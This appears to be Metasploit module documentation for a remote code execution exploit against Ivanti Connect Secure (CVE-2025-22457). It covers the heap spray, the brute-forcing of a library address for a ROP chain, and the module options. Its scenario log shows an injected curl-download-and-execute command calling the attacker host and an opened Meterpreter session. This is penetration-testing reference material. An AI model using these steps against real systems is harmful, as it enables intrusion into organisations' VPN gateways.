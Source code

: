 ## Vulnerable Application

This module exploits a Stack-based Buffer Overflow vulnerability in Ivanti
Connect Secure to achieve remote code execution (CVE-2025-22457). Versions
22.7R2.5 and earlier are vulnerable. Note that Ivanti Pulse Connect Secure,
Ivanti Policy Secure and ZTA gateways are also vulnerable but this module
doesn't support this software. Heap spray is used to place our payload in
memory at a predetermined location. Due to ASLR, the base address of
`libdsplibs` is unknown. This library is used by the exploit to build a ROP
chain and get command execution. As a result, the module will brute force this
address starting from  the address set by the `LIBDSPLIBS_ADDRESS` option.

Since this module needs to fill the processes memory with a large structure
using the heap spray technique, it might take a very long time to succeed. The
execution can be tweeked with the options described below.

Also, since this will create many sockets on your system, you might need to
increase the file descriptor limit with `ulimit` (e.g. `ulimit -n 65535`).

### Installation Steps
Get an Ivanti Security Appliance (ISA) or a Virtual Appliances (ISA-V Series)
with a vulnerable Ivanti Connect Secure installed.

Note that it is not possible to download a trial version of a Virtual Appliance
unless you contact sales and request a demo.

## Verification Steps
1. Start msfconsole
1. Do: `use linux/http/ivanti_connect_secure_stack_overflow_rce_cve_2025_22457`
1. Do: `exploit verbose=true lhost=<local host> rhosts=<remote host>`
1. You should get a Meterpreter session


## Options

### MAX_THREADS
The maximum number of threads to use when spraying (default: 32)

### WEB_CHILDREN
The number of `/home/bin/web` child processes the server uses. It's been
observed that the number of children the main process forks is directly related
to the number of vCPUs used by the system. Ivanti recommends having 4 vCPUs, so
the default number of children is set to 4.
Note that this option should be set properly, since the exploit needs to send enough
spray patterns to fill the memory of each child process. This is mandatory,
since we don’t control which child process will be used to trigger the
vulnerability. If we send too much data, the process memory will overflow and
the process will crash. A `Broken pipe` socket error will happen in this case.
So, if the number of `WEB_CHILDREN` is too low (< vCPUs), we might not send
enough data to fill the memory of every child process and the exploit would
likely fail. This scenario cannot be detected since the child processes should
not crash. The module will simply continue to brute force with a different base
address of `libdsplibs`, without detecting the real issue. On the other hand,
if we send too much data, the child processes will crash and we will need to
start everything again with a lower `WEB_CHILDREN` value.

### LIBDSPLIBS_ADDRESS
The base address of libdsplibs that the module will start with when brute
forcing. It has been observed that this address is always in the range of
`0xf6525000`-`0xf6426000`, giving 256 possible options, since the alignment is
4KB (0x1000 bytes) bytes. As a result, the default value has been set to
`0xf6426000`.

### BRUTEFORCE_ATTEMPTS
The number of attempts to brute force the base address of libdsplibs (default: 255).


## Scenarios

### Ivanti Connect Secure version 22.7r2.4 b3597

In this example, the address of libdsplibs is known to speed up the process (0xf64c1000). Also, we know the target system runs with 2 vCPUs.

```
msf6 exploit(linux/http/ivanti_connect_secure_stack_overflow_rce_cve_2025_22457) > exploit verbose=true lhost=192.168.222.97 rhosts=192.168.222.222 libdsplibs_address=0xf64c1000 web_children=2
[*] Command to run on remote host: curl -so ./pbPNUixqDiK http://192.168.222.97:8080/QAeBnT-6WHJiW5MJjwMrfA;chmod +x ./pbPNUixqDiK;./pbPNUixqDiK&
[*] Fetch handler listening on 192.168.222.97:8080
[*] HTTP server started
[*] Adding resource /QAeBnT-6WHJiW5MJjwMrfA
[*] Started reverse TCP handler on 192.168.222.97:4444
[*] 192.168.222.222:443 - Running automatic check ("set AutoCheck false" to disable)
[*] 192.168.222.222:443 - Checking the product version for https://192.168.222.222:443
[+] 192.168.222.222:443 - The target appears to be vulnerable. Detected version: 22.7.2.3597
[*] 192.168.222.222:443 - shell_cmd: a;export LD_LIBRARY_PATH=/home/lib;curl -so ./pbPNUixqDiK http://192.168.222.97:8080/QAeBnT-6WHJiW5MJjwMrfA;chmod +x ./pbPNUixqDiK;./pbPNUixqDiK& #BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
[*] 192.168.222.222:443 - Targeting https://192.168.222.222:443
[*] 192.168.222.222:443 - Starting...
[*] 192.168.222.222:443 - Trying libdsplibs.so @ 0xf64c1000
[*] 192.168.222.222:443 - Making connections...
[*] 192.168.222.222:443 - Spraying...
[*] 192.168.222.222:443 - Triggering...
[*] 192.168.222.222:443 - Attempt #1
[*] 192.168.222.222:443 - Attempt #2
[*] Client 192.168.222.222 requested /QAeBnT-6WHJiW5MJjwMrfA
[*] Sending payload to 192.168.222.222 (curl/7.80.0-DEV)
[*] Meterpreter session 1 opened (192.168.222.97:4444 -> 192.168.222.222:16758) at 2025-04-30 21:36:49 +0200
[!] 192.168.222.222:443 - Exception: The connection with (192.168.222.222:443) timed out.
[*] 192.168.222.222:443 - Attempt elapsed time: 222.46986142301466 seconds
[*] 192.168.222.222:443 - Total elapsed time: 227.48146175200236 seconds

meterpreter > sysinfo
Computer     : 192.168.222.222
OS           : CentOS 7.9.2009 (Linux 4.17.00.35-selinux-jailing-production)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: nr
```
